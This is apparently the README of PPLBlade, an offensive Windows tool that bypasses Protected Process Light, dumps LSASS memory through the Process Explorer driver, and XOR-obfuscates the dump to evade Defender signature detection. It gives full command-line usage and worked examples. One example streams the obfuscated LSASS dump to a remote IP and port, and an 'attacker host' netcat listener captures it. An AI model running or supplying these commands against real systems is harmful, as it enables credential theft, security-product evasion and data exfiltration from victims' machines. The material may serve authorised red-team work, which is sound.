 # PPLBlade
Protected Process Dumper Tool that support obfuscating memory dump and transferring it on remote workstations without dropping it onto the disk.

**Key functionalities**:
1) Bypassing PPL protection
2) Obfuscating memory dump files to evade Defender signature-based detection mechanisms
3) Uploading memory dump with RAW and SMB upload methods without dropping it onto the disk (fileless dump)


Overview of the techniques, used in this tool can be found here: https://tastypepperoni.medium.com/bypassing-defenders-lsass-dump-detection-and-ppl-protection-in-go-7dd85d9a32e6

_Note that PROCEXP15.SYS is listed in the source files for compiling purposes. It does not need to be transferred on the target machine alongside the PPLBlade.exe._

_It’s already embedded into the PPLBlade.exe. The exploit is just a single executable._

**Modes**:
1) **Dump** - Dump process memory using PID or Process Name
2) **Decrypt** - Revert obfuscated(--obfuscate) dump file to its original state
3) **Cleanup** - Do cleanup manually, in case something goes wrong on execution _(Note that the option values should be the same as for the execution, we're trying to clean up)_
4) **DoThatLsassThing** - Dump lsass.exe using Process Explorer driver _(basic poc)_

**Handle Mode**s:
1) **Direct** - Opens PROCESS_ALL_ACCESS handle directly, using OpenProcess() function
2) **Procexp** - Uses PROCEXP152.sys to obtain a handle 

```
Usage of PPLBlade.exe:
  -driver string
        Path where the driver file will be dropped (default: current directory)
  -dumpmode string
        Dump mode [local|network] (default "local")
  -dumpname string
        Name of the dump file (default "PPLBlade.dmp")
  -handle string
        Method to obtain target process handle [direct|procexp] (default "direct")
  -help
        Prints this help message
  -ip string
        IP of the remote server
  -key string
        XOR Key for obfuscation (default "PPLBlade")
  -mode string
        Kill or Dump process [dump|decrypt|cleanup|dothatlsassthing] (default "dump")
  -name string
        Process name of target process
  -network string
        Method for network transfer[raw|smb] (default "raw")
  -obfuscate
        Obfuscate dump file
  -pass string
        SMB password
  -pid int
        PID of target process (prioritized over process name)
  -port int
        PORT on the remote server
  -quiet
        Quiet mode
  -service string
        Name of the service (default "PPLBlade")
  -share string
        share name
  -user string
        SMB username

Examples:
PPLBlade.exe --mode dothatlsassthing
PPLBlade.exe --mode dump --name lsass.exe --handle procexp --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234
PPLBlade.exe --mode decrypt --dumpname PPLBlade.dmp --key PPLBlade
PPLBlade.exe --mode cleanup
```


**Examples:**

Basic POC that uses PROCEXP152.sys to dump lsass:

```
PPLBlade.exe --mode dothatlsassthing
```
_(Note that it does not XOR dump file, provide an additional obfuscate flag to enable the XOR functionality)_



Upload the obfuscated LSASS dump onto a remote location:

```
PPLBlade.exe --mode dump --name lsass.exe --handle procexp --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234
```

Attacker host:
```
nc -lnp 1234 > lsass.dmp
python3 deobfuscate.py --dumpname lsass.dmp
```

Deobfuscate memory dump:
```
PPLBlade.exe --mode descrypt --dumpname PPLBlade.dmp --key PPLBlade
````

